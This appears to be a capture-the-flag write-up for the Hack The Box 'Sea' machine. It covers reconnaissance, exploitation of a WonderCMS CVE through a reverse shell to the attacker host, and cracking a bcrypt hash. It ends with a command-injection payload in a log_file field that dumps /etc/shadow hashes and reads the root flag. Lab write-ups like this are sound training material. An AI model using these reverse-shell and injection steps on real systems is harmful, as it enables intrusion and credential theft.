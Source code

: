 ```yaml
---
title: "HTB: SEA Seasonal Machine"
author: "v3l1d"
date: "2024-08-08"
---
```


![](attachment/c4cc9c4aee6aa0e906e23da81acfe73a.jpg)
**Nmap**

```shell
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-12 07:55 EDT
Nmap scan report for 10.129.27.223
Host is up (0.050s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e3:54:e0:72:20:3c:01:42:93:d1:66:9d:90:0c:ab:e8 (RSA)
|   256 f3:24:4b:08:aa:51:9d:56:15:3d:67:56:74:7c:20:38 (ECDSA)
|_  256 30:b1:05:c6:41:50:ff:22:a3:7f:41:06:0e:67:fd:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Sea - Home
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.68 seconds

```

![](attachment/bf6ff779445168f6914732ee9f3785f9.png)

```shell
 ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://sea.htb/FUZZ  -mc 200,301,302

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://sea.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,301,302
________________________________________________

# directory-list-2.3-medium.txt [Status: 200, Size: 3650, Words: 582, Lines: 87, Duration: 51ms]
home                    [Status: 200, Size: 3650, Words: 582, Lines: 87, Duration: 50ms]
0                       [Status: 200, Size: 3650, Words: 582, Lines: 87, Duration: 45ms]
themes                  [Status: 301, Size: 230, Words: 14, Lines: 8, Duration: 43ms]
data                    [Status: 301, Size: 228, Words: 14, Lines: 8, Duration: 42ms]
plugins                 [Status: 301, Size: 231, Words: 14, Lines: 8, Duration: 43ms]

```

All endpoints are forbidden

![](attachment/b101fa38d06f5fbb4be25ccc65f7175b.png)


```shell
wget http://sea.htb/themes/bike/README.md                                       
--2024-08-13 05:23:28--  http://sea.htb/themes/bike/README.md
Resolving sea.htb (sea.htb)... 10.129.111.77
Connecting to sea.htb (sea.htb)|10.129.111.77|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 318 [text/markdown]
Saving to: ‘README.md’

README.md                        100%[==========================================================>]     318  --.-KB/s    in 0s      

2024-08-13 05:23:28 (52.1 MB/s) - ‘README.md’ saved [318/318]

```

WGET README.md and LICENSE and analyze content, it says is used WonderCMS

![](attachment/72b505acf6cc17aeff4fafb3135dacfb.png)

Looking online found: [CVE-2023-41425 (WonderCMS Remote Code Execution) - PoC](https://gist.github.com/prodigiousMind/fc69a79629c4ba9ee88a7ad526043413)
![](attachment/bafc9212737fc47089cd6101baff47f0.png)

	Clone the repo and try. After talking with others on discord

```shell
http://sea.htb/themes/revshell-main/rev.php?lhost=10.10.14.126&lport=4444
```
![](attachment/ef1268efe149e6fffec7386597207bb3.png)

```shell
$ cd /var/www/sea
$ cd sea
$ ls
contact.php
data
index.php
messages
plugins
themes
$ cd data
$ ls
cache.json
database.js
files
$ cat database.js
{
    "config": {
        "siteTitle": "Sea",
        "theme": "bike",
        "defaultPage": "home",
        "login": "loginURL",
        "forceLogout": false,
        "forceHttps": false,
        "saveChangesPopup": false,
        "password": "$2y$10$iOrk210RQSA****************",
        "lastLogins": {
            "2024\/08\/13 18:10:26": "127.0.0.1",
            "2024\/08\/13 18:09:26": "127.0.0.1",
            "2024\/08\/13 18:09:25": "127.0.0.1",
            "2024\/08\/13 18:08:25": "127.0.0.1",
            "2024\/08\/13 18:07:25": "127.0.0.1"
        },


```


Fix the hash provided removing the escapes obtaining this:

```shell
$2y$10$iOrk****************
┌──(kali㉿kali)-[~/HTB/Sea]
└─$ hashcat hash.txt -m 3200 /usr/share/wordlists/rockyou.txt
$2y$10$iOrk21****************:****************
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM...DnXm4q
Time.Started.....: Wed Aug 14 06:21:53 2024 (46 secs)
Time.Estimated...: Wed Aug 14 06:22:39 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       67 H/s (6.72ms) @ Accel:4 Loops:32 Thr:1 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 3072/14344384 (0.02%)
Rejected.........: 0/3072 (0.00%)
Restore.Point....: 3056/14344384 (0.02%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:992-1024
Candidate.Engine.: Device Generator
Candidates.#1....: 753159 -> dangerous
Hardware.Mon.#1..: Util: 88%

Started: Wed Aug 14 06:21:13 2024
Stopped: Wed Aug 14 06:22:41 2024

```

![](attachment/4b8223e56cbf8a23659153d34599548d.png)

Try this password in ssh with one of these two users:

```shell
┌──(kali㉿kali)-[~/HTB/Sea]
└─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.126] from (UNKNOWN) [10.129.166.185] 44840
Linux sea 5.4.0-190-generic #210-Ubuntu SMP Fri Jul 5 17:03:38 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 10:25:42 up 41 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ cd /home
$ ls
amay
geo

```

![](attachment/5e7f51c554cca528be1ef76f440f477d.png)
Manipulate burp request on http://localhost:8888 after forwarding this port trough ssh from 8080 of the victim 

```shell
log_file=/etc/shadow;ls&analyze_log=/etc/shadow

root:$6$llVzHhr7xHrvx1wJ$gH0PLbyPaIOqLrpjpzGZbM2bZ/iHaOfv/bj1YRrktVeZ8.1KQ0Jr1Rv/TL/3Qdh84Fwec1UhX2v0LVAGsuzq.0:19775:0:99999:7::: daemon:*:19430:0:99999:7::: bin:*:19430:0:99999:7::: sys:*:19430:0:99999:7::: sync:*:19430:0:99999:7::: games:*:19430:0:99999:7::: man:*:19430:0:99999:7::: lp:*:19430:0:99999:7::: mail:*:19430:0:99999:7::: news:*:19430:0:99999:7::: uucp:*:19430:0:99999:7::: proxy:*:19430:0:99999:7::: www-data:*:19430:0:99999:7::: backup:*:19430:0:99999:7::: list:*:19430:0:99999:7::: irc:*:19430:0:99999:7::: gnats:*:19430:0:99999:7::: nobody:*:19430:0:99999:7::: systemd-network:*:19430:0:99999:7::: systemd-resolve:*:19430:0:99999:7::: systemd-timesync:*:19430:0:99999:7::: messagebus:*:19430:0:99999:7::: syslog:*:19430:0:99999:7::: _apt:*:19430:0:99999:7::: tss:*:19430:0:99999:7::: uuidd:*:19430:0:99999:7::: tcpdump:*:19430:0:99999:7::: landscape:*:19430:0:99999:7::: pollinate:*:19430:0:99999:7::: fwupd-refresh:*:19430:0:99999:7::: usbmux:*:19774:0:99999:7::: sshd:*:19774:0:99999:7::: systemd-coredump:!!:19774:::::: amay:$6$S1AGe5ex2k4D5MKa$gTclSeJwvND3FINpZaK0zfUqk6T9IkhlxCn17fNWLx56u.zP/f/4e5YrJRPsM3TRuuKXQDfYL44RyPzduexsm.:19775:0:99999:7::: lxd:!:19774:::::: geo:$6$5mAIqOze4GJ4s9Zu$P3IgUSHlcCkKpDJ0862IgP5aqaNilEUZDGIm16FiWdxh1A5dfKjmwhMgp3xctHiHZVWGtmKY25cCrILanDPaG.:19934:0:99999:7::: _laurel:!:19936:::::: 
```
![](attachment/9031cba476e653a6aa5180f76feea642.png)

We can get the root flag directly

```shell
log_file=/root/root.txt;ls&analyze_log=/root/root.txt
```

**Flags
```shell
user:459138e5dbf2****************
root:c58fac105938****************
```